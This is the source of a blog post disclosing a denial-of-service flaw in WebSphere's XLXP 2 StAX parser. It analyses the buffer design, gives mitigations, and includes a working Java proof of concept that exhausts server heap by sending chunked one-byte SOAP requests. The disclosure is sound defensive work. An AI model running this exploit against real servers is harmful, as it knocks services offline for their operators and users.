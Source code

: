 ```yaml
---
layout: post
title: "Broken by design: WebSphere's default StAX implementation (part 1)"
category: tech
tags:
 - WebSphere
 - StAX
 - Exploit
blogger: /2013/10/broken-by-design-xlxp2.html
---
```


Recently I came across an issue in WebSphere's default StAX implementation (XLXP 2) where the parser unexpectedly consumed a
huge amount of heap. The issue was triggered by a gzipped XML file containing a base64 encoded PDF document with several
megabytes of content. A test showed that although the size of the XML document was of order of 10 MB, XLXP 2 required almost
1 GB of heap to parse the document (without any additional processing). That is of course totally unexpected: for large
documents, an XML parser should never require an amount of heap 100 times as large as the size of the XML document.

After investigating the issue (with the XLXP 2 version in WAS 8.5.0.2), it turned out that the problem with IBM's parser is
caused by the combination of three things:

*   Irrespective of the value of the `javax.xml.stream.isCoalescing` property (`XMLInputFactory.IS_COALESCING`), the parser will
    always return a text node in the input document as a single `CHARACTERS` event (where the precise meaning of "text node" is
    a sequence of [`CharData`](http://www.w3.org/TR/REC-xml/#NT-CharData) and/or [`Reference`](http://www.w3.org/TR/REC-xml/#NT-Reference)
    tokens neither preceded nor followed by a `CharData` or `Reference` token).

    For readers who are not experts in the StAX specification, this requires some additional explanations. With respect to
    coalescing, the only requirement stipulated by StAX (which is notoriously underspecified) is that enabling coalescing mode
    "requires the processor to coalesce adjacent character data". There are two interpretations of this requirement:

    *   The first one is that this requirement is simply related to how [CDATA sections](http://www.w3.org/TR/REC-xml/#sec-cdata-sect)
        are processed. If coalescing is enabled, then CDATA sections nodes are implicitly converted to text nodes and merged with
        adjacent text nodes. In non coalescing mode, CDATA sections are reported as distinct events, such that there is one and only
        one event for each text node and CDATA section in the input document. This interpretation corresponds to the definition
        of coalescing used by DOM (see `DocumentBuilderFactory#setCoalescing()`).

    *   The second interpretation goes a step further and assumes that in non coalescing mode, the parser should handle text
        nodes in a way similar to SAX, i.e. split text nodes that are larger than parser's input buffer into chunks. In this
        case, a text node is reported as one or more CHARACTERS events. This allows the parser to process text nodes of
        arbitrary length with constant memory.

    BEA's original reference implementation and XLXP 2 are based on the first interpretation, while SJSXP (the StAX
    implementation in Oracle's JRE) and Woodstox use the second interpretation. Note that for applications using StAX, this
    doesn't really make any difference because an application using a StAX parser in non coalescing mode must be written
    such that it is able to correctly process any sequence of `CHARACTERS` and `CDATA` events.

*   XLXP 2 uses a separate buffer for each read operation on the underlying input stream, i.e. for each read operation, the
    parser will either allocate a new buffer or recycle a previously created buffer that is no longer in use. That is the case
    even if the previous read operation didn't fill the buffer completely: XLXP 2 will not attempt to read data into the buffer
    used during the previous read operation. By default, the size of each buffer is 64 KB.

*   When processing character data, the buffers containing the corresponding (encoded) data from the underlying stream remain
    in use (i.e. cannot be recycled) until the data has been reported back to the application. Note that this is a design
    choice: the parser could as well have been designed to accumulate the decoded character data in an intermediary buffer
    and immediately release the original buffers.

This has two consequences:

*   When processing a text node from the input document, all buffers containing chunks of data for that text node remain in use
    until the parser reaches the end of the text node.

*   If the read operations on the underlying input stream return less than the requested number of bytes (i.e. the buffer size),
    then these buffers will only be partially filled.

This means that processing a text node may require much more memory than one would expect based on the length of that text node.
Since the default buffer size is 64 KB, in the extreme case (where each read operation on the input stream returns a single byte),
the parser may need 65536 times more memory than the length of the text node. In the case I came across, the XML document
contained a text node of around 9 million characters and the input stream was a `GZIPInputStream` which returned more or less
600 bytes per read operation. A simple calculation shows that XLXP 2 will require of order of 900 MB of heap to process that text node.

IBM's reaction to this was that XLXP 2 is "working as designed" (!) and that the issue can be mitigated with the help of two
system properties:

`com.ibm.xml.xlxp2.api.util.encoding.DataSourceFactory.bufferLength`
:   Obviously, this system property specifies the size of the buffers described earlier. Setting it to a smaller value than the
    default 65536 bytes will reduce the amount of unused space. On the other hand, if the value is too small, then this will
    obviously have an impact on performance. Note that the fact that this parameter is specified as a system property is
    especially unfortunate, because it will affect all applications running on a given WebSphere instance.

`com.ibm.xml.xlxp2.api.util.Pool.STRONG_REFERENCE_POOL_MAXIMUM_SIZE`
:   This property was introduced by APAR [PM42465](http://www-01.ibm.com/support/docview.wss?uid=swg1PM42465) and is related to
    pooling of `XMLStreamReader` objects, not buffers. Therefore it has no impact on the problem described here.

However, it should be clear by now that adjusting these system property doesn't eliminate the problem completely, unless one uses
an unreasonable small buffer size. This raises another interesting question: considering that WebSphere's JAX-WS implementation
relies on StAX and that XLXP 2 may under certain circumstances allocate an amount of heap that is several order of magnitudes
larger than the message size, isn't that a vector for a denial-of-service attack? If it's possible to construct a request that
tricks XLXP 2 into reading multiple small chunks from the incoming SOAP message, couldn't this be used to trigger an OOM error
on the target application server?

It turns out that unfortunately this is indeed possible. The attack takes advantage of the fact that when WebSphere receives a
POST request that uses the chunked transfer encoding, the Web container will deliver each chunk separately to the application.
If the request is dispatched to a JAX-WS endpoint this means that each chunk is delivered individually to the StAX parser, which
is exactly the attack vector we are looking for. To exploit this vulnerability, one simply has to construct a SOAP message with
a moderately large text node (let's say 10000 characters) and send that message to a JAX-WS endpoint using 1-byte chunks
(at least for the part containing the text node). To process that text node, XLXP 2 will have to allocate 10000 buffers, each
one 64 KB in size (assuming that the default configuration is used), which means that more than 600 MB of heap are required.

The following small Java program can be used to test if a particular (JAX-WS endpoint on a given) WebSphere instance is vulnerable:

~~~ java
public class XLXP2DoS {
  private static final String CHARSET = "utf-8";
  
  public static void main(String[] args) throws Exception {
    String host = "localhost";
    int port = 9080;
    String path = "/myapp/myendpoint";
    Socket socket = new Socket(host, port);
    OutputStream out = socket.getOutputStream();
    out.write(("POST " + path + " HTTP/1.1\r\n"
        + "Host: " + host + ":" + port + "\r\n"
        + "Content-Type: text/xml; charset=" + CHARSET + "\r\n"
        + "Transfer-Encoding: chunked\r\n"
        + "SOAP-Action: \"\"\r\n\r\n").getBytes("ascii"));
    writeChunk(out, "<s:Envelope xmlns:s='http://schemas.xmlsoap.org/soap/envelope/'>"
        + "<s:Header><p:dummy xmlns:p='urn:dummy'>");
    for (int i=0; i<10000; i++) {
      writeChunk(out, "A");
    }
    writeChunk(out, "</p:dummy></s:Header><s:Body/></s:Envelope>");
    out.write("0\r\n\r\n".getBytes("ascii"));
    socket.close();
  }
  
  private static void writeChunk(OutputStream out, String data) throws IOException {
    out.write((Integer.toHexString(data.length()) + "\r\n").getBytes("ascii"));
    out.write(data.getBytes(CHARSET));
    out.write("\r\n".getBytes("ascii"));
  }
}
~~~

The vulnerability has some features that make it rather dangerous:

*   Since the amount of heap used is several order of magnitudes larger than the message size, it is generally possible to carry
    out this attack even against application servers with a maximum POST request size configured in the
    [HTTP transport channel settings][1].

[1]: http://pic.dhe.ibm.com/infocenter/wasinfo/v7r0/topic/com.ibm.websphere.express.doc/info/exp/ae/urun_chain_typehttp.html

*   An HTTP server in front of the application server doesn't protect against the attack. The reason is that the WebSphere plug-in
    forwards the chunks unmodified to the target server. The same will be true for most types of load balancers. For reverse
    proxies other than IBM HTTP Server this may or may not be true. On the other hand, a security gateway (such as DataPower) or
    an ESB will likely protect against this attack.

*   Since the request is relatively small, it will be difficult to distinguish from other requests and to trace back to its source.

One possible way to fix this vulnerability is to use another StAX implementation, as described in a
[previous post](/2013/10/02/broken-by-design-websphere-stax.html). In fact, switching the StAX implementation for a given Java EE
application also changes the StAX implementation used to process SOAP messages for JAX-WS endpoints exposed by that application.
Since WebSphere's JAX-WS implementation is based on Apache Axis2 and Apache Axiom, and the recommended StAX implementation for
Axiom is Woodstox, that particular StAX implementation may be the best choice. Note that this may still have some unexpected
side effects. In particular, XLXP 2 is known to implement some optimizations that are designed to work together with the JAXB 2
implementation in WebSphere. Obviously these optimizations will no longer work if XLXP 2 is replaced by Woodstox. It is also not
clear if using WebSphere's JAX-WS implementation with a non-IBM StAX implementation is supported by IBM, i.e. if you will get
help if there is an interoperability issue.

**Update:** IBM finally acknowledged that there is an issue with XLXP 2 (although they avoided qualifying it as a security issue).
See the [second part](/2013/12/09/broken-by-design-xlxp2-part2.html) of this article for a discussion about the "fix" IBM applied
to solve the issue.
